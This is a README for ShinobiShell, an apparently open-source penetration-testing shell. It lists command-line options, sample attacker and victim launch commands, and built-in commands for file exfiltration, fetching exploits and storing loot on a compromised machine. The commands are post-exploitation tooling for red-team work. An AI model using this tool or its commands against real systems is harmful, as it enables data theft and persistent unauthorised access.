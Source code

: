 # ShinobiShell
An experimental shell that handles file exfiltration, exploit injection and various other obnoxious tasks.
```
Shinobi shell is a shell specifically designed to make exfiltration, proxying, persistance and other pentesting actions easier.

'-a', '--address', The machine address with a Shinobi Shell listener running'
'-l', '--listen', 'Starts Shinobi Shell listener on port passed in'
'-k', '--key', 'Secret shared key used to create an encrypted tunnel between Shinobi Server and Clients (Required)'
'-r', '--serveraddress', 'Local IP Address used for universal reverse shell handler'
```
Use:

Server (Attacking box) 
`./shinobishell.py -l 4443 -k 1234567890123456`

Client (Penetrated box) 
`./shinobishell.py --address 192.168.1.2:4443 -k 123456790123456` 

```
Shinobi Shell v1.0
Author: Anthony Russell
Contact: Twitter @DotNetRussell
Blog: https://DotNetRussell.com  (don't hack me bro)

Commands:

help -                      displays help information
machineinfo -               displays a series of machine variables to help with priv esc
searchsploit -              <search text> sends a searchsploit command back to your attacking machine and returns the results through shinobi tunnel
exfil <file name> -         exfiltrates a file back to your attacking machine via shinobi tunnel
ssdownload <exploit path> - downloads a search sploit exploit from your attacking machine
download <url> -            does a wget for your file on your attacking machine and then transfers it to you over shinobi tunnel
linenumdownlods -           linenum.sh to the Shinobi Server and then transfers it back to the client

Loot Chest:

loot store <key> <value> -  stores a key value pair in your loot chest
loot <key> -                gets a loot value
loot show -                 shows everything in loot chest

NOTE: Loot chest auto syncs with attacking machine
	
Auto Aliases
lsa == ls -la
```
